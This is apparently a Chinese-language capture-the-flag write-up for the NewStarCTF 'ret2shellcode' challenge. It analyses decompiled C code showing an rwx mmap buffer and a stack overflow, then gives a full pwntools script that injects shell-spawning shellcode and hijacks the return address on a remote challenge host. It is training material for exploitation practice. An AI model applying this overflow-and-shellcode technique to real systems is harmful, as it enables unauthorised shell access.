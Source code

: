 # PWN challenges 一些非常见题型

## [NewStarCTF 公开赛赛道]ret2shellcode

这是一道ret2shellcode的题型，但是通过checksec发现启用`PIE`保护，不能在`.bss`段写入`shellcode`

> <img src="./img_c/1.png">

查看`IDA`反编译信息

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  _BYTE v4[40]; // [rsp+0h] [rbp-30h] BYREF
  void *buf; // [rsp+28h] [rbp-8h]

  init(argc, argv, envp);
  buf = mmap((void *)0x233000, 0x1000uLL, 7, 34, -1, 0LL);
  puts("Hello my friend.Any gift for me?");
  read(0, buf, 0x100uLL);
  puts("Anything else?");
  read(0, v4, 0x100uLL);
  puts("Ok.See you!");
  return 0;
}
```

- 第7行`mmap()`创建了一个缓冲区`buf`，大小为`0x1000`字节，重点是拥有`7`权限，即`rwx`权限

- 第9行向缓冲区`buf`中写入数据，总长度`0x100`字节
- 第11行向缓冲区`v4`写入数据，总长度`0x100`字节

根据`IDA`的分析来说，既然`buf`拥有`rwx`权限，那么我们可以向`buf`中写入`shellcode`，但是不能直接溢出`buf`，因为第一个`read()`限制了写入的数据长度`0x100`，该长度远远小于`buf`允许的最大长度`0x1000`，因此需要利用第二个`read()`，第二个`read()`写入的缓冲区`v4`仅有40字节，完全满足溢出条件

同时，`mmap()`函数也指定了缓冲区的内存地址`0x233000`，这一点也可以在`pwndbg`中验证

> <img src="./img_c/2.png">

然后计算从`v4`到`rbp`的长度

> <img src="./img_c/3.png">

从上图可以得出，从`rsp`到`rbp`共`0x30`个字节，加上`rbp`本身8字节，共需要溢出`0x38`个字节，下面是攻击脚本

```py
from pwn import *

context.arch = 'amd64'

buf_addr = 0x233000
shellcode = asm(shellcraft.amd64.sh())
payload = b'A' * 0x38 + p64(buf_addr)

io = remote('node5.buuoj.cn', 28144)
io.sendline(shellcode)
io.recv()
io.sendline(payload)
io.interactive()
```

运行脚本，得到flag

> <img src="./img_c/4.png">